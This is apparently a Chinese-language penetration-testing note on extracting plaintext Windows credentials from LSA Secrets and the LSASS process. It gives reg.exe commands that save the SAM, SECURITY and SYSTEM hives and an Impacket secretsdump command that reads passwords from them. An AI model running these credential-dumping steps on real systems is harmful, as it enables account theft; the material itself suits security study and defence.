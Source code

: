 

![image-20201011142832621](https://raw.githubusercontent.com/Explorersss/photo/master/20201011142832.png)















## 获取明文身份凭证

### LSA Secrets

> LSA secrets is a special protected storage for important data used by the **Local Security Authority** (LSA) in Windows. LSA is designed for managing a system's local security policy, auditing, authenticating, logging users on to the system, storing private data. Users' and system's sensitive data is stored in secrets. Access to all secret data is available to system only. However, as shown below, some programs, in particular [Windows Password Recovery](https://www.passcape.com/windows_password_recovery), allow to override this restriction.



LSA Secrets存储在注册表的 HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets中



自Windows 8.1 开始为LSA提供了额外的保护（LSA Protection），以防止读取内存和不受保护的进程注入代码。保护模式要求所有加载到LSA的插件都必须使用Microsoft签名进行数字签名。





#### 获取明文密码

1. 导出HKEY_LOCAL_MACHINE\SAM,HKEY_LOCAL_MACHINE\SECURITY,HKEY_LOCAL_MACHINE\SYSTEM

   ```
   reg.exe save hklm\sam c:\sam.save
   reg.exe save hklm\security c:\security.save
   reg.exe save hklm\system c:\system.save
   ```

2. 利用Impacket中的secretsdump导出密码,将3个文件放到Impacket\examples

   ```
   secretsdump.py -sam sam.save -security security.save -system system.save
   ```

   

### LSASS Process

lsass(Local Security Authority Subsystem Service, 本地安全性授权服务)是一个系统进程，用于微软Windows系统的安全机制。它用于本地安全和登陆策略

为了支持WDigest 和SSP身份认证，LSASS使用明文存储用户身份凭证，如果UseLogonCredential的值设置为0，则内存中不会存放明文密码
